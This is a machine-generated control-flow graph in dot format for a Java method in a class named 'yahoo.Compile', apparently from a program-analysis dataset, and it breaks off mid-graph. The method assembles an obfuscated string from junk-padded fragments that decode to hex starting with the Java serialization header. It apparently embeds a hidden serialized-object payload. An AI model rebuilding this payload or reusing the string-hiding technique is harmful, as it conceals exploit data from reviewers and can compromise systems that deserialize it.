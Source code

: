 digraph "" {
    "r0 := @this: yahoo.Compile"
    "push 0"
    "r0 := @this: yahoo.Compile"->"push 0";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "pop"
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "push 1"
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "new java.lang.StringBuilder"
    "pop"->"new java.lang.StringBuilder";
    "dup1.r"
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"ACE``D`0```0\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"ACE``D`0```0\"";
    "push \"`\""
    "push \"ACE``D`0```0\""->"push \"`\"";
    "push \"\""
    "push \"`\""->"push \"\"";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0www5wwww737w2\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0www5wwww737w2\"";
    "push \"w\""
    "push \"0www5wwww737w2\""->"push \"w\"";
    "push \"w\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"001BMMM6MMMMAMMMM\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"001BMMM6MMMMAMMMM\"";
    "push \"M\""
    "push \"001BMMM6MMMMAMMMM\""->"push \"M\"";
    "push \"M\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"6t17tt661\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"6t17tt661\"";
    "push \"t\""
    "push \"6t17tt661\""->"push \"t\"";
    "push \"t\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"2EVVV7V5VVV74VVV\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"2EVVV7V5VVV74VVV\"";
    "push \"V\""
    "push \"2EVVV7V5VVV74VVV\""->"push \"V\"";
    "push \"V\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"jjjj6jj9jjjj6Cjj2E\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"jjjj6jj9jjjj6Cjj2E\"";
    "push \"j\""
    "push \"jjjj6jj9jjjj6Cjj2E\""->"push \"j\"";
    "push \"j\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"41171117265\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"41171117265\"";
    "push \"1\""
    "push \"41171117265\""->"push \"1\"";
    "push \"1\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"67<6F72\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"67<6F72\"";
    "push \"<\""
    "push \"67<6F72\""->"push \"<\"";
    "push \"<\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"cccc6cc96ccc1cc6cccE\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"cccc6cc96ccc1cc6cccE\"";
    "push \"c\""
    "push \"cccc6cc96ccc1cc6cccE\""->"push \"c\"";
    "push \"c\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"4361S6C\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"4361S6C\"";
    "push \"S\""
    "push \"4361S6C\""->"push \"S\"";
    "push \"S\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"1116111511116E11164\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"1116111511116E11164\"";
    "push \"1116111511116E11164\""->"push \"1\"";
    "push \"1\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"61728LLLF\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"61728LLLF\"";
    "push \"L\""
    "push \"61728LLLF\""->"push \"L\"";
    "push \"L\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"NN3DNNND7DNN6\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"NN3DNNND7DNN6\"";
    "push \"N\""
    "push \"NN3DNNND7DNN6\""->"push \"N\"";
    "push \"N\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"E65B60D60\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"E65B60D60\"";
    "push \"6\""
    "push \"E65B60D60\""->"push \"6\"";
    "push \"6\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"YYC1Y0YYY20YYYY0Y\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"YYC1Y0YYY20YYYY0Y\"";
    "push \"Y\""
    "push \"YYC1Y0YYY20YYYY0Y\""->"push \"Y\"";
    "push \"Y\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"01XXXX4A0X0XX\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"01XXXX4A0X0XX\"";
    "push \"X\""
    "push \"01XXXX4A0X0XX\""->"push \"X\"";
    "push \"X\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"PP1P06PP77PPP2\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"PP1P06PP77PPP2\"";
    "push \"P\""
    "push \"PP1P06PP77PPP2\""->"push \"P\"";
    "push \"P\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"6iii5i6ii76F\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"6iii5i6ii76F\"";
    "push \"i\""
    "push \"6iii5i6ii76F\""->"push \"i\"";
    "push \"i\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"72s69sssssss6s1\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"72s69sssssss6s1\"";
    "push \"s\""
    "push \"72s69sssssss6s1\""->"push \"s\"";
    "push \"s\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"6AAEAAA4AAAA37A5\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"6AAEAAA4AAAA37A5\"";
    "push \"A\""
    "push \"6AAEAAA4AAAA37A5\""->"push \"A\"";
    "push \"A\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"74dddd6dddFd76\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"74dddd6dddFd76\"";
    "push \"d\""
    "push \"74dddd6dddFd76\""->"push \"d\"";
    "push \"d\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"6572NNN78N\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"6572NNN78N\"";
    "push \"6572NNN78N\""->"push \"N\"";
    "push \"N\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"720012\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"720012\"";
    "push \"720012\""->"push \"s\"";
    "push \"s\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"WWW6A6WW176\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"WWW6A6WW176\"";
    "push \"W\""
    "push \"WWW6A6WW176\""->"push \"W\"";
    "push \"W\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"6K1KKK2KKKE7KKKK5\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"6K1KKK2KKKE7KKKK5\"";
    "push \"K\""
    "push \"6K1KKK2KKKE7KKKK5\""->"push \"K\"";
    "push \"K\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"BB7BBBBBB46BBB9BBB6BBBBBC\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"BB7BBBBBB46BBB9BBB6BBBBBC\"";
    "push \"B\""
    "push \"BB7BBBBBB46BBB9BBB6BBBBBC\""->"push \"B\"";
    "push \"B\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"2Eyy4y361\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"2Eyy4y361\"";
    "push \"y\""
    "push \"2Eyy4y361\""->"push \"y\"";
    "push \"y\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"6fffC656ffffEfff\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"6fffC656ffffEfff\"";
    "push \"f\""
    "push \"6fffC656ffffEfff\""->"push \"f\"";
    "push \"f\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"6K4KKKKKKKK6KKKK1KK72KK\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"6K4KKKKKKKK6KKKK1KK72KK\"";
    "push \"6K4KKKKKKKK6KKKK1KK72KK\""->"push \"K\"";
    "push \"K\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"E6EA4uDuuu\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"E6EA4uDuuu\"";
    "push \"u\""
    "push \"E6EA4uDuuu\""->"push \"u\"";
    "push \"u\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"1E;;;;C;;;;8D;;;;C\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"1E;;;;C;;;;8D;;;;C\"";
    "push \";\""
    "push \"1E;;;;C;;;;8D;;;;C\""->"push \";\"";
    "push \";\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"5B8E0____3_\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"5B8E0____3_\"";
    "push \"_\""
    "push \"5B8E0____3_\""->"push \"_\"";
    "push \"_\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"000B222252222A\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"000B222252222A\"";
    "push \"2\""
    "push \"000B222252222A\""->"push \"2\"";
    "push \"2\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"000C6ii1iii\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"000C6ii1iii\"";
    "push \"000C6ii1iii\""->"push \"i\"";
    "push \"i\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"7hhhh26hhhh5hhhh46hhh\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"7hhhh26hhhh5hhhh46hhh\"";
    "push \"h\""
    "push \"7hhhh26hhhh5hhhh46hhh\""->"push \"h\"";
    "push \"h\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"6TTT9656TTTTTC\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"6TTT9656TTTTTC\"";
    "push \"T\""
    "push \"6TTT9656TTTTTC\""->"push \"T\"";
    "push \"T\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"6mmmm4mmm7mmm35m3\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"6mmmm4mmm7mmm35m3\"";
    "push \"m\""
    "push \"6mmmm4mmm7mmm35m3\""->"push \"m\"";
    "push \"m\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"A6AAA57449\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"A6AAA57449\"";
    "push \"A6AAA57449\""->"push \"A\"";
    "push \"A\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"L000LLLLLE6LLL6\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"L000LLLLLE6LLL6\"";
    "push \"L000LLLLLE6LLL6\""->"push \"L\"";
    "push \"L\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"697DDDD273\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"697DDDD273\"";
    "push \"D\""
    "push \"697DDDD273\""->"push \"D\"";
    "push \"D\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"7Z4Z4ZZZZ46Z1\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"7Z4Z4ZZZZ46Z1\"";
    "push \"Z\""
    "push \"7Z4Z4ZZZZ46Z1\""->"push \"Z\"";
    "push \"Z\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"79vvvv4vvF6vvvvvv6\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"79vvvv4vvF6vvvvvv6\"";
    "push \"v\""
    "push \"79vvvv4vvF6vvvvvv6\""->"push \"v\"";
    "push \"v\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"5FF76F565\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"5FF76F565\"";
    "push \"F\""
    "push \"5FF76F565\""->"push \"F\"";
    "push \"F\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"61B151111A100\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"61B151111A100\"";
    "push \"61B151111A100\""->"push \"1\"";
    "push \"1\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"096::9:::73\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"096::9:::73\"";
    "push \":\""
    "push \"096::9:::73\""->"push \":\"";
    "push \":\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"5V4VV69VV6VVVVVVD\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"5V4VV69VV6VVVVVVD\"";
    "push \"5V4VV69VV6VVVVVVD\""->"push \"V\"";
    "push \"V\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"655EEEE365\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"655EEEE365\"";
    "push \"E\""
    "push \"655EEEE365\""->"push \"E\"";
    "push \"E\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"745hhhA00hh\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"745hhhA00hh\"";
    "push \"745hhhA00hh\""->"push \"h\"";
    "push \"h\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0II7I6IIC6IIII5\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0II7I6IIC6IIII5\"";
    "push \"I\""
    "push \"0II7I6IIC6IIII5\""->"push \"I\"";
    "push \"I\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"6zzzzE6zz9zzzz65\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"6zzzzE6zz9zzzz65\"";
    "push \"z\""
    "push \"6zzzzE6zz9zzzz65\""->"push \"z\"";
    "push \"z\""->"push \"\"";
